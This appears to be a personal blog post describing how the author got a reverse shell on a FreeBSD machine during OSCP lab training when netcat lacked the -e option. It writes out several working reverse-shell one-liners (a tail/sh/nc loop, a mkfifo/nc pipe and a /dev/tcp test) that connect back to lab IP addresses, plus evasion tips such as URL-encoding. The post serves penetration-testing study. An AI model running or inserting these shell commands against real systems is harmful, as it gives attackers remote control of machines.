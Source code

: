 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security draft
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     width="320px"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:
{% highlight bash %}
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
{% endhighlight %}

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous [/dev/tcp/<ip>/<port>](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) did not work either. The following command did not result in any response on my machine.

{% highlight bash %}
echo foo > /dev/tcp/10.11.0.13/443
{% endhighlight %}

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

{% highlight bash %}
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
{% endhighlight %}

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)
